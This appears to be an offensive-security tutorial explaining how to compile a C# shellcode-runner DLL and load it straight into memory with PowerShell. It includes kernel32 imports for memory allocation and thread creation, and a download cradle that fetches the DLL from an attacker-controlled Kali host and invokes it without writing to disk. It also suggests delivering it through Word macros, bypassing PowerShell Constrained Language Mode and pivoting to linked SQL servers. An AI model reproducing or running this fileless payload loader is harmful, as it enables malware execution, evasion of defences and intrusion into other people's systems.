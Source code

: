 First we will create a Class Library (.Net Framework), which will create a managed DLL when we compile. 
The process of creating a managed EXE is similar to that of creating a managed DLL. 
we will create a runner method with the prefixes public, static, and void. This will serve as the body of the shellcode runner and must be available through reflection, which is why we declared it as public and static.

DllImports and definition of runner method:

    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
         uint flAllocationType, uint flProtect);
    
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    
        public static void runner()
        {
        ***<comment>we can have the exact content of the Main method of the ShellCode Runner in C# project into the runner method; We'll also need to replace the namespace imports to match those of the project
        Ref:https://github.com/TatTvamAsi-786/CSharp-Shellcode-Runner <comment>***
        }

we can compile it and copy the resulting DLL (ClassLibrary1.dll) into the web root of our Kali Linux machine. we'll use a download cradle to fetch the newly-compiled DLL.
we'll use the LoadFile method from the System.Reflection.Assembly namespace to dynamically load our pre-compiled C# assembly into the process. This works in both PowerShell and native C#.
we will use DownloadData method of the Net.WebClient class to download the DLL as a byte array. so that we can avoid download the assembly to disk before loading it.

Using DownloadData and Load to execute the assembly from memory:

    $data = (New-Object System.Net.WebClient).DownloadData('http://<kali ip>/ClassLibrary1.dll')
    
    $assem = [System.Reflection.Assembly]::Load($data)
    $class = $assem.GetType("ClassLibrary1.Class1")
    $method = $class.GetMethod("runner")
    $method.Invoke(0, $null)

with this approach we have successfully loaded precompiled C# assembly directly into memory without touching disk and executed our shellcode runner.

we can use this technique within a Word macro but remember that Word runs as a 32-bit process.

Also, we can use this technique to bypass PowerShell CLM, we can have the relative code in runner() method. 

Also, we can modify runner() to execute code (C#) on remote linked SQL server from intial foothold powershell prompt if required 
